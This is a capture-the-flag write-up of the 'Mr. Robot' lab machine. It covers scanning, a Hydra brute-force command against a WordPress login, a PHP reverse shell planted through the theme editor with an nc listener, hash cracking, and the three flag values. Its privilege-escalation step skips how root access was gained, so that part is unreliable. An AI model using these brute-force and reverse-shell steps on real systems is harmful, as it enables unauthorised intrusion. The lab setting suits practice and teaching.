 # **Mr. Robot CTF Report (Kkaxh1)**

**Target IP:** 10.10.10.128
**Attacker IP:** 10.10.10.129

## **1. Nmap Scan Results**

**Open Ports:**

* **80/tcp** – HTTP (Apache httpd)
* **443/tcp** – HTTPS (Apache httpd)
* **22/tcp** – SSH (Closed)

**OS Guessing (Aggressive):**

* Linux Kernel 3.10 – 4.11 (most probable)
* Network Distance: 1 hop
* MAC Address: VMware (00:0C:29\:C6:6F\:C5)

---

## **2. Web Enumeration**

### **Robots.txt**

Found at: `http://10.10.10.128/robots.txt`
Contents:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

* **fsocity.dic** – Wordlist used for brute force
* **key-1-of-3.txt** – First flag:
  **073403c8a58a1f80d943455fb30724b9**

### **Interesting URLs Discovered via Gobuster**

* `/wp-login.php` – WordPress login
* `/admin` – Redirects to wp-admin
* `/license.txt`, `/readme.html`, `/intro`, `/rss`, `/atom`, `/feed`, `/robots.txt`, `/key-1-of-3.txt`
* `/wp-content`, `/wp-includes`, `/js`, `/css`, `/images`, `/audio`, `/video`, `/image`

---

## **3. WordPress Bruteforce**

**Username Discovered:**
`elliot` (found through basic enumeration and confirmed via Hydra)

**Wordlist Used:**
`fsocity.dic` (discovered in `robots.txt`)

**Cracking Method:**
Brute-force using **Hydra** with the following command:

```bash
hydra -l elliot -P fsocity.dic 10.10.10.128 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=Invalid username"
```

**Successful Credentials:**

* **Username:** elliot
* **Password:** ER28-0652

**Key 2 Found (Post Login):**
**822c73956184f694993bede3eb39f959**

---

## **4. Exploitation: Reverse Shell**

After logging into the WordPress dashboard, used **Theme Editor** to replace `404.php` with a PHP reverse shell.

**Payload Source:**
`php-reverse-shell.php` from Pentestmonkey repo

**Modified IP and Port:**

```php
$ip = '10.10.10.129';
$port = 4444;
```

**Listener Setup:**

```bash
nc -lvnp 4444
```

**Trigger URL:**

```
http://10.10.10.128/wp-content/themes/<active-theme>/404.php
```

Reverse shell established successfully.

---

## **5. Post-Exploitation Enumeration**

### **Robot User Credentials**

Found the file:
`/home/robot/password.raw-md5`

Contents:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Cracked the hash using `john` and `rockyou.txt`.
**Password for robot:** `abcdefghijklmnopqrstuvwxyz`

**Switched User:**

```bash
su robot
```

---

## **6. Privilege Escalation**

Enumerated for potential escalation paths.

Discovered the third key using:

```bash
find / -iname key-3-*
```

Found:
`/root/key-3-of-3.txt`

**Final Flag (Key 3):**
**04787ddef27c3dee1ee161b21670b4e4**

---

## **7. Summary of Flags Collected**

* **Key 1:** 073403c8a58a1f80d943455fb30724b9
* **Key 2:** 822c73956184f694993bede3eb39f959
* **Key 3:** 04787ddef27c3dee1ee161b21670b4e4


---

**Author:** Kakaxh1

**Email:** [kkaxh1.009720@gmail.com](mailto:kkaxh1.009720@gmail.com)

